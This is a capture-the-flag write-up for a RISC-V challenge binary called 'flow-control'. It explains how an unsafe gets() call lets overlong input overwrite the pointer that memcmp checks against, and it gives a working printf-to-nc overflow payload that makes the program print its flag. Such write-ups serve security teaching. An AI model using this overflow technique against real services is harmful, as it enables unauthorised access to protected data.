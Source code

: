 # flow-control writeup

We are given a web interface and telnet port where we can enter a flag, and a
download link to an executable file (containing RISC-V code!). The inputs seem
to be sent to that executable, so, let's have a look at what that executable is
doing!

From Ghidra, we get the following decompilation:

```c
  char stack16[10];
  int2hex(gpbase, stack16);
  stack16[8] = '\n';
  stack16[9] = 0;
  puts("gp: "); puts(stack16);

  d._64_4_ = getenv("FLAG");
  if (d._64_4_ == 0) {
    eputs("ERROR: no FLAG in environment!\n");
    return 1;
  }

  gets(d);
  if (d._0_4_ == "FLG{") {
    if (d[48] == '}') {
      iVar1 = memcmp(d,d._64_4_,49);
      if (iVar1 == 0) {
        puts("Congrats, you got the flag, which was ");
        puts(getenv("FLAG"));
        puts("!\n");
      }
      else {
        iVar1 = 1;
        eputs("Not the right flag, sorry.\n");
      }
    }
    else {
      iVar1 = 1;
      eputs("Bad input: must end with \'}\'\n");
    }
  }
  else {
    iVar1 = 1;
    eputs("Bad input: must start with \'FLG{\'\n");
  }
  return iVar1;
```

The code seems to compare the input with the data from an environment variable.
But how does that comparison get done? Let's have a closer look at the
assembly...

```
	000100a4      c.jal      getenv
	000100a6      addi       s0,gp,-0x7f4
	000100aa      c.sw       a0,0x40(s0)
	000100ac      c.beqz     a0,LAB_00010110
	000100ae      addi       a0,gp,-0x7f4
	000100b2      c.jal      gets

	[...]

	000100ce      c.lw       a1,0x40(s0)
	000100d0      li         a2,0x31
	000100d4      addi       a0,gp,-0x7f4
	000100d8      c.jal      memcmp
```

**Note**: the addresses may look slightly different compared to a binary
obtained during the competition. This may occur because the binary is compiled
separately for each team, and thus may vary slightly.

The code:
1. reads the `FLAG` environment variable and puts a pointer to it into address
   `gp - 0x7f4 + 0x40`
2. reads input from standard input using `gets()`, and putting the result at
   `gp - 0x7f4`
3. compares the data at address `gp - 0x7f4` with the data at
   `*(gp - 0x7f4 + 0x40)` using `memcmp()`

As the code uses the (rightly so) unsafe function `gets()`, this code is
vulnerable to a buffer overflow! When entering more than 64 bytes worth of
input, the next bytes will end up at `gp - 0x7f4 + 0x40`, thus overwriting the
data it checks against.

If you overwrite it with `gp - 0x7f4`, you would make the code compare the
input with itself, thus bypassing the `memcmp` check! This will make the
program give you the flag.

But how do you get the value of `gp`? Luckily, the program prints this at the
beginning. After some basic arithmetic, one can craft a payload that yields the
flag:

```
$ printf "FLG{0123456789abcdef0123456789abcdef0123456789ab}def0123456789ab\x30\x14\x01\x00\n" | nc 127.0.66.1 23
gp: 00011c3c
Congrats, you got the flag, which was FLG{9ac3736be06bbfd6ed47e6b15d2d1dad8d9868610b3e}!
```

Alternatively, piping the output of previous `printf` command into `base64`
yields a string that can be entered in the web interface.

This was a simple RISC-V adaptation of a challenge from a previous edition,
[go-with-the-flow](https://github.com/ULYSSIS-KUL/ulyssisctf-writeups/tree/master/2022/exploit/go-with-the-flow).

